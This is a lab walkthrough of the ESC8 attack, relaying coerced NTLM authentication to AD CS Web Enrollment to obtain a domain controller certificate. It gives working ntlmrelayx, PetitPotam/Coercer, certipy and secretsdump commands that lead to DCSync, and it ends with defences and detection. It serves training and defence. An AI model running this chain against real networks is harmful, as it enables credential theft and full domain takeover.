

# ESC8 — NTLM Relay to AD CS Web Enrollment

**Impact:** any coercible machine → certificate for a DC → **domain compromise**
**Lab status:** 🌐 requires attacker on the DC's subnet

---

## Concept

AD CS Web Enrollment (`http://<CA>/certsrv`) accepts **HTTP with NTLM
authentication** and, by default, **without Extended Protection for
Authentication (EPA)**. That makes it a textbook NTLM **relay** target.

The attacker coerces a privileged machine — typically the DC itself — into
authenticating to them (PetitPotam, PrinterBug, etc.), then relays that NTLM
authentication to the Web Enrollment endpoint and requests a certificate for the
**`DomainController` / `Machine`** template. The result is a certificate for
`DC01$`, which authenticates as the DC and enables **DCSync** → full domain
compromise.



---

## Why it's subnet-bound in this lab

Relay needs the coerced authentication to reach the attacker's listener, and the
attacker's relay to reach `certsrv`. Over a routed VPN the coercion callback and
NTLM leg are usually filtered or NAT'd. **Run this from a host on `10.0.0.0/24`
alongside the DC.** The deploy opens TCP 80/443 inbound for exactly this exercise.

---

## Exploitation

### 1 — start the relay against Web Enrollment

```bash
# Impacket
ntlmrelayx.py -t http://10.0.0.5/certsrv/certfnsh.asp -smb2support \
  --adcs --template DomainController
```

### 2 — coerce the DC to authenticate to you

```bash
# PetitPotam (MS-EFSR)
petitpotam.py -u lowpriv -p 'Lab12345!' -d adescrtl.lab <ATTACKER_IP> 10.0.0.5
# or Coercer
coercer coerce -u lowpriv -p 'Lab12345!' -d adescrtl.lab -t 10.0.0.5 -l <ATTACKER_IP>
```

`ntlmrelayx` prints a base64 certificate for `DC01$`.

### 3 — use the DC certificate

```bash
certipy auth -pfx dc01.pfx -dc-ip 10.0.0.5
# TGT as DC01$  ->  DCSync
secretsdump.py -k -no-pass adescrtl.lab/'DC01$'@DC01.adescrtl.lab
```

---

## Detection & defence

- **Disable NTLM** on the Web Enrollment site, or **enforce EPA** and require
  HTTPS. (Certsrv → IIS Authentication → Windows Auth → Advanced → Extended
  Protection = Required.)
- **Remove Web Enrollment** if unused (`Uninstall-AdcsWebEnrollment`).
- Deploy the **RPC/HTTP filters** and coercion patches (PetitPotam/PrinterBug),
  and enable **SMB/LDAP signing + channel binding**.
- Detect relay: authentication from a machine account to `certsrv` it never uses,
  and CA event 4886 issuing machine certs unexpectedly.
